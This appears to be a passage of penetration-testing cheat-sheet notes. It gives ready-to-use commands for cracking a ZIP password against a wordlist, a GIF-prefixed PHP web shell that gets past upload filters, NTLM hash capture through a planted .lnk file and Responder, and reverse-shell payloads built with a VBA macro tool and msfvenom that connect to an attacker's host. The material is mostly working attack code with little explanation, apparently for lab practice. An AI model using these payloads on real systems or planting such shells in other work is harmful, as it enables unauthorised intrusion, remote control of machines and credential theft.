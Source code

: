 ```bash
zip2john protected.zip > zip.hash
john -w=/usr/share/wordlists/rockyou.txt zip.hash
7z x protected.zip
```

#### Evil-WinRM Functionality

You can easily download files from the windows machine to your kali vm using:

```bash
download <remote file path> <local file path>
```

#### Name Mash

If you have first and last names, you can use this program to create different popular formats for usernames, "https://gist.github.com/superkojiman/11076951".


#### Uploading "GIF"

If you have the "GIF89a;" at the beginning, you may be able to bypass blacklists.

```bash
GIF89a;
<?php system($_GET["cmd"]); ?
```

#### Getting a Reverse Shell from SMB (Windows)

You can create a .lnk file with hashgrab.py and impacket's smb server:

```bash
python3 /opt/hashgrab.py 192.168.45.163 test
sudo responder -I tun0
# or impacket-smbserver share share -smb2support
smbclient \\\\$ip\\nara
put test.lnk
# look for hashes in smb server
```

#### Getting a Reverse Shell with VBA Macros

```bash
# With Minitrue

cd /opt/Minitrue
./minitrue
select a payload: windows/x64/shell_reverse_tcp
select the payload type: VBA Macro
LHOST=$yourIP
LPORT=$yourPort
Payload encoder: None
Select or enter file name (without extensions): hacker

# With MSFVenom
msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f hta-psh -o shell.doc
```
